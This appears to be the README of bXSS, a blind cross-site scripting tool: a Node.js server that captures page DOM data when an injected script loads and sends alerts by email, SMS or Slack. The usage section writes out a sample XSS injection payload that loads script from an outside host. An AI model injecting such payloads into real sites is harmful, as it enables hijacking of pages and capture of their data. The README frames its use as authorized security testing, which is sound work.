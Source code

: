 # bXSS

bXSS is a simple Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://lewisardern.github.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS will:

* [Email when the resource has been loaded via nodemailer ](./Images/email.jpg)
* [Send a SMS via Twilio](./Images/sms.jpg)
* [Send a Slack Message](./Images/slack.jpg)
* [Save to disk to review later (If necessary)](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) 
* Node.js and Express
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Everything else - Loads alert(1)


# Contribute?

This was more of a fun personal project after seeing the example from [Mario Heiderich's](https://twitter.com/0x6D6172696F) AppSec Europe training and I wanted to have a reason to write more JavaScript and use some ES6. 

This is perfect for my needs, and maybe yours too; I would recommend looking at [Sleepy Puppy](https://github.com/Netflix/sleepy-puppy) or [XSS Hunter](https://xsshunter.com/features) to see if they are appropriate as they are extremly easy to get started with, especially XSS Hunter's online version. 

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
